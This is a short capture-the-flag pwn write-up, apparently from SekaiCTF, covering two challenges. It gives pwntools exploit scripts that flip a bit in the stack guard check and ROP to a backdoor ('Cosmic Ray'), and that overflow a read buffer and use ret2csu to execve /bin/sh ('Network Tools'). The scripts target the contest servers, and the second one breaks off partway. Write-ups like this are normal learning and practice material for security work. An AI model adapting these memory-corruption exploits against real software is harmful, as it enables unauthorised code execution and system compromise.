 # Pwn

## Cosmic Ray

Flip stack guard check code, and then ROP to the backdoor.

```python
from pwn import *
import random

context.log_level = 'debug'


def flip(x, y):
    r.sendlineafter('through it:', hex(x))
    r.sendlineafter('(0-7):', str(7 - y))


def review(x):
    r.sendlineafter('today:', x)


# r = process(['./cosmicray'])
r = remote('chals.sekai.team', 4077)
input()
flip(0x4016f4, 0)
review(b'A' * 56 + p64(0x4012d6))
r.interactive()
```

## Network Tools

There's a manually crafted stack overflow by `read` in `ip_lookup`.

I used ret2csu and execve `/bin/sh`.

```python
from pwn import *
import time

context.log_level = 'debug'


r = process(['./nettools'])
# r = remote('chals.sekai.team', 4077)
r = remote('chals.sekai.team', 4001)
input()
r.recvuntil('leaked: ')
base = int(r.recvline().strip(), 16) - 0x7A03C
print(hex(base))
r.sendlineafter('> ', '3')

pad = cyclic_gen().get(0x400).find((0x61616D6861616C68).to_bytes(8, 'little'))
print(pad)

binsh = b'/bin/sh\0'

p = p64

SYSCALL = base + 0x79968
CSU_MID = base + 0x5F350
CSU_FINAL = base + 0x5F36A
POP_RCX = base + 0xA4E8
```